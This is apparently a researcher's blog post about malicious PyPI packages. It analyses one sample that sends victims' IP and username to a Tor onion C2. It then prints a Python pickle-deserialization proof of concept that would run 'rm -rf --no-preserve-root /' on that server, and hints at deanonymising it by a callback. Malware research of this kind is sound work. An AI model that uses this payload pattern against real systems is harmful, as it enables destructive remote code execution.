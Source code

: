 ```yaml
---
title: Malware madness
date: '2023-4-24'
---
```


I've recently been helping track threat actors that upload malware
to the PYPI package index (stuff that you can pip install).

Here's a collection of madness

---

## Tor Shenanigans

People think that when you put something behind tor it's really secure, super
hidden and impossible to find. This sample, however, proves the opposite.

![tor shenanigans](/i/more_malware_tor.png)

I've deleted most of the boilerplate but in essence all it does is make a
socket connection to the onion service by setting it as a socks proxy.

It then sends your ip address ('grabbed' from httpbin[.]com), username, etc
with the `send_data function`. Some people will see the glaring issue right
away but for those who haven't used python extensively, the `pickle.loads`
function is vulnerable arbitrary python code execution. Here is a really 
simple PoC to pwn the c2 server:

```py
# please don't actually run this :(
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm -rf --no-preserve-root /')
        return os.system, (cmd,)

def send_data(conn, data):
    data = pickle.dumps(data)
    data_len_str = str(len(data))
    header = '0' * (64 - len(data_len_str)) + data_len_str

    conn.send(header.encode())
    conn.send(data)

c2_link = 'zuela32n363gucsyr5z4w635pmthnq4lsxod43r3yapu4vddn5qwcpad[.]onion' # i've defanged this
c2_port = 1337

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    s = socket.socket(c2_link, c2_port) # yes, I know this doesn't work it's just pseudocode
    send_data(s, pickled)
```

Running this code sample would execute the `rm -rf --no-preserve-root /` command
on the remote server, wiping all files and folders from the system. We could also
deanonymise the server by having it call back to us. However, I'll leave that as
as exercise for the reader. 

**SERIOUS DISCLAMER: fr doe don't actually do bad things with this, no matter 
who it is**
